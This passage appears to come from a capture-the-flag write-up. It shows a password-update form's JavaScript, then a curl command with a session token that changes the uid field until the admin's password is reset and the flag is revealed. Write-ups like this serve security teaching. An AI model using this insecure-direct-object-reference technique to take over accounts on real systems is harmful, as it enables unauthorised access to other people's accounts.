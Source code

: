 ```javascript
	let card = $("#resp-msg");
    card.text('Updating password, please wait');
	card.show();

	let uid = $("#uid").val();
	let password1 = $("#password1").val();
	let password2 = $("#password2").val();

	if ($.trim(password1) === '' || password1 !== password2) {
		$('#update-btn').prop('disabled', false);
		card.text("Please type-in the same password!");
		card.show();
		return;
	}

	await fetch(`/api/users/update`, {
			method: 'POST',
			headers: {
				'Content-Type': 'application/json',
			},
			body: JSON.stringify({password: password1, uid}),
		})
		.then((response) => response.json()
			.then((resp) => {
				card.text(resp.message);
				card.show();
			}))
		.catch((error) => {
			card.text(error);
			card.show();
		});

    $('#update-btn').prop('disabled', false);
}                                            
```
Reviewing the code above, it appears we only need to include the passwords and the uid (maybe the serial number?).

Executing `curl -X POST http://206.189.126.144:30887/api/users/update -H "Content-Type: application/json" -b 'session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MTg0NjV9.LJ9MFwDABdTO-1XWXJ480YnguQozen8z17qncPPB64w' -d '{"password":"password123","password1":"password123","uid":"SERIAL"}'`, replacing `SERIAL` with `000083921` or `000076439` doesn't work. They both will return `{"message":"The user doesn't exist!"}`. 

I decided to go back to the infamous 0 as the uid and increment from there. I tried `0` as the UID, but that also returned a `{"message":"The user doesn't exist!"}`. However, `1` works! Not only did we update the password, but we updated the admin password `{"message":"Password for admin changed successfully!"}`. Going back to the login form and entering the new credentials `admin:password123` reveals the flag.
